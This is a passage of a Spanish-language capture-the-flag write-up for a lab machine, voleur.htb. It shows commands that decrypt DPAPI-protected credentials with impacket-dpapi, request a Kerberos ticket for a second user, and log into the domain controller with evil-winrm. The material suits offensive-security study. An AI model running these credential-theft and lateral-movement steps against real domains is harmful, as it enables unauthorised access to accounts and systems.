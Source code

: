 <img width="1917" height="287" alt="image" src="https://github.com/user-attachments/assets/9d88dac1-d13d-4884-a561-e1cef59d6198" />

donde conseguimos un segundo archivo el cual vamos intentar desencriptar y ver si localizamos credenciales, lo primero sera moverlo a un directorio donde podamos escribir nosotros y otros usuarios, por lo que lo copiamos al siguiente directorio:

```powershell
copy 772275FAD58525253490A9B0039791D3 C:\Users\'All Users'\credencitials
```

ahora desde la instancia donde accedimos via `winrm` nos vamos hasta donde se localiza el archivo y lo descargamos

<img width="1917" height="583" alt="image" src="https://github.com/user-attachments/assets/50266a12-dc0d-4cf6-8608-d054bb26b3e9" />

ahora vamos a intentar desencriptarlo desde nuestra maquina atacante

```bash
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password {password del usuario todd.wolfe}
```

<img width="1600" height="357" alt="image (9)" src="https://github.com/user-attachments/assets/5e4aac9d-d425-422e-b72f-c613065b8f2d" />

nos quedamos con el hash `Decrypted key` el cual nos va permitir desencriptar el archivo `credencitials`

```bash
impacket-dpapi credential -file credencitials -key {hash Decrypted key}
```

<img width="1600" height="357" alt="image (10)" src="https://github.com/user-attachments/assets/9e408c92-b959-4b71-b62d-745b692ce878" />

hemos obtenido credenciales del usuario `jeremy.combs` y si chequeamos en `bloodhound` vemos que podemos conectarnos via `winrm` ya que pertenece a `REMOTE-MANAGEMENT`

<img width="1917" height="911" alt="image" src="https://github.com/user-attachments/assets/06c792c7-e73e-4a85-ae0f-1c49f015409e" />

Ahora para conectarnos via `winrm` primero solicitamos el ticket TGT

```bash
impacket-getTGT voleur.htb/'jeremy.combs':'qT*********'
```

```bash
export KRB5CCNAME=jeremy.combs.ccache
```

```bash
evil-winrm -i DC.voleur.htb -k -u 'jeremy.combs' -r VOLEUR.HTB
```

<img width="1600" height="522" alt="image (11)" src="https://github.com/user-attachments/assets/f1d714ee-694c-4e3c-bd4f-255e116ceaf0" />


como ya vimos a que grupos pertenece este usuario en `bloodhound` nos iremos directamente a los recursos compartidos a ver que conseguimos

<img width="1917" height="765" alt="image" src="https://github.com/user-attachments/assets/14347bba-6f8d-4518-bcd8-e362a07aa579" />
